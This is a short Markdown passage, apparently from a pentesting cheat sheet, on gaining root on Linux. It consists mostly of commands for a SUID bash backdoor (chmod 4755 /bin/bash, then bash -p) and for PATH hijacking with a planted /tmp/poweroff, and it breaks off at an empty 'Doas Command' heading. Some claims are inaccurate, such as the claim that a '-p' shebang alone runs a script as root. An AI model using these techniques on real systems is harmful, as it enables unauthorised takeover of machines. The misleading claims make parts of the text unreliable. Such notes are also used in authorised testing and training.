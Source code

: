 ## Execute Commands as Root Privilege

1. **Change Shebang in Shell Script**

    Add "-p" option at the first line to execute the script as root privilege.

    ```sh
    #!/bin/bash -p
    whoami
    ```

2. **Use the Set User ID (SUID)**

    If you can change permission of the **/bin/bash** , add **SUID** to the file.

    ```sh
    chmod 4755 /bin/bash
    ```

    Then you execute it as root privilege by adding "-p" option.  
    You'll be able to pwn the target shell.

    ```sh
    user@machine:~/$ /bin/bash -p
    root@machine:~/$ whoami
    root
    ```

3. **Change Contents of Executable**

    If you can execute the SUID file, change the content using "echo" and overwrite the PATH to run it with priority.

    ```sh
    # option 1
    echo /bin/sh > /tmp/poweroff
    # option 2
    echo /bin/bash > /tmp/poweroff

    chmod +x /tmp/poweroff
    export PATH=/tmp:$PATH

    # Some SUID command
    sudo /usr/sbin/shutdown

    # Then you are root user
    root>
    ```

4. **Doas Command**

